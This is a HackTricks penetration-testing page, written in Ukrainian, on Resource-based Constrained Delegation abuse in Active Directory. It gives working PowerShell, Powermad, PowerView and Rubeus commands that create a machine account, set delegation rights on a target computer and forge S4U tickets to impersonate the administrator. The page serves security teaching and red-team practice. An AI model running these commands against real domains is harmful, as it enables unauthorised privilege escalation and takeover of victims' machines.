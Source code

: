 # Resource-based Constrained Delegation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Основи ресурсно-орієнтованої обмеженої делегації

Це схоже на базову [обмежену делегацію](constrained-delegation.md), але **замість** надання дозволів **об'єкту** на **виконання дій від імені будь-якого користувача проти служби**. Ресурсно-орієнтована обмежена делегація **встановлює** в **об'єкті, хто може виконувати дії від імені будь-якого користувача проти нього**.

У цьому випадку обмежений об'єкт матиме атрибут _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ з ім'ям користувача, який може виконувати дії від імені будь-якого іншого користувача проти нього.

Ще одна важлива відмінність цієї обмеженої делегації від інших делегацій полягає в тому, що будь-який користувач з **права на запис над обліковим записом комп'ютера** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/тощо_) може встановити _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (в інших формах делегації вам потрібні були права адміністратора домену).

### Нові концепції

У попередній обмеженій делегації говорилося, що **`TrustedToAuthForDelegation`** прапор у значенні _userAccountControl_ користувача потрібен для виконання **S4U2Self.** Але це не зовсім правда.\
Реальність полягає в тому, що навіть без цього значення ви можете виконати **S4U2Self** проти будь-якого користувача, якщо ви є **службою** (маєте SPN), але якщо ви **маєте `TrustedToAuthForDelegation`**, повернутий TGS буде **Forwardable**, а якщо ви **не маєте** цього прапора, повернутий TGS **не буде** **Forwardable**.

Однак, якщо **TGS**, використаний у **S4U2Proxy**, **НЕ Forwardable**, спроба зловживання **базовою обмеженою делегацією** **не спрацює**. Але якщо ви намагаєтеся експлуатувати **ресурсно-орієнтовану обмежену делегацію, це спрацює** (це не вразливість, це функція, очевидно).

### Структура атаки

> Якщо у вас є **права на запис, еквівалентні привілеям** над **обліковим записом комп'ютера**, ви можете отримати **привілейований доступ** до цього комп'ютера.

Припустимо, що зловмисник вже має **права на запис, еквівалентні привілеям над комп'ютером жертви**.

1. Зловмисник **компрометує** обліковий запис, який має **SPN**, або **створює один** (“Служба A”). Зверніть увагу, що **будь-який** _адміністратор_ без будь-яких інших спеціальних привілеїв може **створити** до 10 **об'єктів комп'ютера (**_**MachineAccountQuota**_**)** і встановити їм **SPN**. Тож зловмисник може просто створити об'єкт комп'ютера та встановити SPN.
2. Зловмисник **зловживає своїм правом на запис** над комп'ютером жертви (Служба B), щоб налаштувати **ресурсно-орієнтовану обмежену делегацію, щоб дозволити Службі A виконувати дії від імені будь-якого користувача** проти цього комп'ютера жертви (Служба B).
3. Зловмисник використовує Rubeus для виконання **повної атаки S4U** (S4U2Self і S4U2Proxy) від Служби A до Служби B для користувача **з привілейованим доступом до Служби B**.
1. S4U2Self (з компрометованого/створеного облікового запису SPN): Запит на **TGS адміністратора для мене** (не Forwardable).
2. S4U2Proxy: Використовуйте **не Forwardable TGS** з попереднього кроку, щоб запитати **TGS** від **адміністратора** до **хоста жертви**.
3. Навіть якщо ви використовуєте не Forwardable TGS, оскільки ви експлуатуєте ресурсно-орієнтовану обмежену делегацію, це спрацює.
4. Зловмисник може **передати квиток** і **виконати дії від імені** користувача, щоб отримати **доступ до жертви Служби B**.

Щоб перевірити _**MachineAccountQuota**_ домену, ви можете використовувати:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Атака

### Створення об'єкта комп'ютера

Ви можете створити об'єкт комп'ютера в домені, використовуючи [powermad](https://github.com/Kevin-Robertson/Powermad)**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### Налаштування R**esource-based Constrained Delegation**

**Використання модуля PowerShell activedirectory**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**Використання powerview**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Виконання повної атаки S4U

По-перше, ми створили новий об'єкт Комп'ютера з паролем `123456`, тому нам потрібен хеш цього пароля:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
Це виведе хеші RC4 та AES для цього облікового запису.\
Тепер можна виконати атаку:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Ви можете згенерувати більше квитків, просто запитавши один раз, використовуючи параметр `/altservice` Rubeus:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
Зверніть увагу, що у користувачів є атрибут під назвою "**Не може бути делегований**". Якщо у користувача цей атрибут встановлено в True, ви не зможете його імплементувати. Цю властивість можна побачити в bloodhound.
{% endhint %}

### Доступ

Остання команда виконає **повну атаку S4U і впровадить TGS** від адміністратора до жертви в **пам'яті**.\
У цьому прикладі було запитано TGS для служби **CIFS** від адміністратора, тому ви зможете отримати доступ до **C$**:
```bash
ls \\victim.domain.local\C$
```
### Зловживання різними сервісними квитками

Дізнайтеся про [**доступні сервісні квитки тут**](silver-ticket.md#available-services).

## Помилки Kerberos

* **`KDC_ERR_ETYPE_NOTSUPP`**: Це означає, що kerberos налаштовано на те, щоб не використовувати DES або RC4, а ви надаєте лише хеш RC4. Надайте Rubeus принаймні хеш AES256 (або просто надайте йому хеші rc4, aes128 і aes256). Приклад: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: Це означає, що час поточного комп'ютера відрізняється від часу DC, і kerberos не працює належним чином.
* **`preauth_failed`**: Це означає, що вказане ім'я користувача + хеші не працюють для входу. Ви могли забути вставити "$" в ім'я користувача під час генерації хешів (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: Це може означати:
* Користувач, якого ви намагаєтеся видати за іншого, не може отримати доступ до бажаного сервісу (тому що ви не можете видати його за іншого або тому, що у нього недостатньо привілеїв)
* Запитуваний сервіс не існує (якщо ви запитуєте квиток для winrm, але winrm не працює)
* Створений fakecomputer втратив свої привілеї над вразливим сервером, і вам потрібно їх повернути.

## Посилання

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Дізнайтеся та практикуйте Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Дізнайтеся та практикуйте Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
